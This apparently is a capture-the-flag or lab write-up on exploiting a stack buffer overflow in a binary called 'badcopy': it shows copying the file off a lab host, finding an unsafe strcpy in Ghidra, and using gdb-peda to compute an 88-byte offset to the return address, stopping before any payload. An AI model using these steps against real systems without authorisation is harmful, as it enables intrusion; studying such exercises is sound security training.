 ### Version 2
### I downloaded a copy of 'badcopy' to my kali VM
```bash
# on my machine
sudo service ssh start
# on server
scp /opt/badcopy/badcopy user@192.168.100.214:~/final
# on my machine
sudo service ssh stop
```
## Open in ghidra

```bash
/usr/share/ghidraRun/ghidra
```

> Found user-created function, filecopy

#### Still in ghidra, I found the vulnerable section of source code. I will be exploiting strcpy via buffer overflow
```
  strcpy(s2,argv[2]); # argv[2] being the dest file

  #  strcpy(s1,argv[1]); # artv[2] being the  src file
  #  printf("You are copying ");
  #  printf(argv[1]);
  #  printf(" to ");
  #  printf(argv[2]);
```

## Back on 192.168.101.137

#### I realized that the function copies contents of one file to another, so I created two files in /tmp to test expected behavior of program
```bash
touch /tmp/src.txt && touch /tmp/dest.txt
```

### Buffer Overflow Attempt
## I found the base pointer overflow point by running program as intended
```bash
gdb-peda$ b filecopy
gdb-peda$ r /tmp/src.txt /tmp/dest.txt
gdb-peda$ n
gdb-peda$ p &s2		# 0xbffff504
gdb-peda$ p &s1		# 0xbffff544
gdb-peda$ p $ebp	# 0xbffff598
gdb-peda$ p/d 0xbffff598 - 0xbffff544 # 84 or 0x54
```
#### My overflow needs to start 84 + 4 bytes to overflow the return address (88 bytes in)
